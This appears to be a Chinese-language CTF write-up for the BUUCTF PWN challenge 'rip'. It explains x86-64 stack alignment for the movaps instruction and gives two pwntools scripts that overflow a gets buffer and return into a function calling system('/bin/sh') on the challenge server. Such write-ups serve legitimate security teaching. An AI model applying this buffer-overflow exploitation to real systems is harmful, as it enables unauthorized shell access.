 # buuctf[PWN]

## 题目：rip(栈对齐)

### 知识点：栈对齐

1. 题目地址：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#rip)
2. 知识点：64位ubuntu18以上系统调用system函数时需要栈对齐，因为**64位**下的system函数有个**movaps指令**，这个指令要求内存地址(ebp)必须**16字节对齐**，如果内存地址没有对齐会停止在该指令处。![image-20240506205321177](https://s2.loli.net/2024/05/06/YB2FdzDgWq937IC.png)
3. 但是将rbp按**16字节对齐**(保证rbp的值最后一位时**0**即可)后即可通过：![image-20240506205312385](https://s2.loli.net/2024/05/06/guvleOPHDmWSLa6.png)
4. 为什么rbp最后一位是**0**即可保证对齐：在64位的系统中**内存地址**按**8字节**编排，而十六进制满16进位，所以内存中的所有编排的地址**最后一位**都是**0**或**8**(一个格子放8字节即**64bit**的数据)，所以要使栈按**16字节对齐**，那**rbp的值最后一位**必须是**0**。

### 题解：

1. ida进入程序：发现gets这漏洞函数，然后再fun函数中发现调用了system("/bin/sh")，直接栈溢出返回妇fun函数的地址**0x401186**即可。

![image-20240506205303643](https://s2.loli.net/2024/05/06/MwJaCKERkAsf2qv.png)

![image-20240506205255975](https://s2.loli.net/2024/05/06/3xcMqGwZbJitQWI.png)

2. 计算栈溢出的地址：这个函数的地址需要在前面填入15+8个垃圾数据(为什么这么计算后面再出教程吧)，然后写入fun函数地址。![image-20240506205246664](https://s2.loli.net/2024/05/06/DRzsEWai6kvO25Q.png)
3. 脚本：

``````python
from pwn import *
 
p = remote('node5.buuoj.cn',26058)#建立连接

payload = b'a'*(15+8)+p64(0x401186)
p.sendline(payload)
p.interactive()
``````



4. 运行脚本会发现此路不通，原因就上上面将的栈对齐。：![image-20240506205237573](https://s2.loli.net/2024/05/06/47xTrlQWiLmuHoY.png)
5. 在本地调试该程序会发现在调用**system("/bin/sh")**时会在**movaps ++，xmm指令**处停止，无法继续，这是一位xmm寄存器调用时要求栈必须按**16字节**对齐。[movaps](https://c9x.me/x86/html/file_module_x86_id_180.html)![image-20240506205227200](https://s2.loli.net/2024/05/06/tgIJvSO1FhX5T8W.png)
6. **当源操作数或目标操作数是内存操作数时，该操作数必须对齐在16字节边界上，否则会引发一般保护异常（#GP）**：所以要保证栈在16字节上对齐，这里就要在脚本上稍作修改，让栈的操作(pop\push)少操作一步，相当于**rsp + or -8字节**，跳过fun函数开头的push即可让调用system函数时完成栈在16字节上对齐，而且不将rbp压栈(跳过该指令)，不会对system函数的调用造成影响（在后面调用函数时生成**栈帧**时会细讲）。![image-20240506205615055](https://s2.loli.net/2024/05/06/6uOtbY7zkgnZKI2.png)
7. 改后脚本：

``````python
from pwn import *
 
p = remote('node5.buuoj.cn',28455)

payload = b'a'*(15+8)+p64(0x401186+1)
p.sendline(payload)
p.interactive()

``````
